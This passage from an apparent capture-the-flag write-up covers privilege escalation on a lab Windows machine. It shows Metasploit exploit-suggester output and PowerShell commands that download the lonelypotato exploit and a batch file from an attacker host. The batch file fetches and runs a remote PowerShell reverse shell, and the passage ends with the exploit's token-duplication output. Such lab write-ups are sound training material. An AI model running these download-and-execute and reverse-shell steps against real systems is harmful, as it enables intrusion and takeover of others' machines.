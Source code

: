     meterpreter > getuid
    Server username: BOUNTY\merlin
    

Now, I’ll background that and use `use
post/multi/recon/local_exploit_suggester`, and see it gives a few options
(though not as many as Watson):

    
    
    msf post(multi/recon/local_exploit_suggester) > run
    
    [*] 10.10.10.93 - Collecting local exploits for x64/windows...
    [*] 10.10.10.93 - 18 exploit checks are being tried...
    [+] 10.10.10.93 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
    [+] 10.10.10.93 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
    [+] 10.10.10.93 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
    [*] Post module execution completed
    

### Escalation Method 1: Lonely Potato

I’ll grab a copy of the the [compiled lonelypotato
binary](https://github.com/decoder-
it/lonelypotato/blob/master/RottenPotatoEXE/MSFRottenPotato.exe) and upload it
to target, along with a bat script that will start another Nishang shell:

    
    
    PS C:\users\merlin\appdata\local\temp> (new-object net.webclient).downloadfile('http://10.10.14.5/lonelypotato.exe', 'C:\users\merlin\appdata\local\temp\lp.exe')
    PS C:\users\merlin\appdata\local\temp> (new-object net.webclient).downloadfile('http://10.10.14.5/rev.bat', 'C:\users\merlin\appdata\local\temp\rev.bat')
    
    PS C:\users\merlin\appdata\local\temp> type rev.bat
    powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.5/Invoke-PowerShellTcp.ps1')
    

Now run it, and get a shell:

    
    
    PS C:\users\merlin\appdata\local\temp> C:\users\merlin\appdata\local\temp\lp.exe * C:\users\merlin\appdata\local\temp\rev.bat
    CreateIlok: 0 0
    CreateDoc: 0 0
    connect sock
    start RPC  connection
    COM -> bytes received: 116
    RPC -> bytes Sent: 116
    RPC -> bytes received: 84
    COM -> bytes sent: 84
    COM -> bytes received: 24
    RPC -> bytes Sent: 24
    RPC -> bytes received: 136
    COM -> bytes sent: 136
    COM -> bytes received: 135
    RPC -> bytes Sent: 135
    RPC -> bytes received: 216
    COM -> bytes sent: 216
    COM -> bytes received: 158
    RPC -> bytes Sent: 158
    RPC -> bytes received: 56
    COM -> bytes sent: 56
    CoGet: -2147022986 0
    [+] authresult != -1
    [+] Elevated Token tye:2
    [+] DuplicateTokenEx :1  0
    [+] Duped Token type:1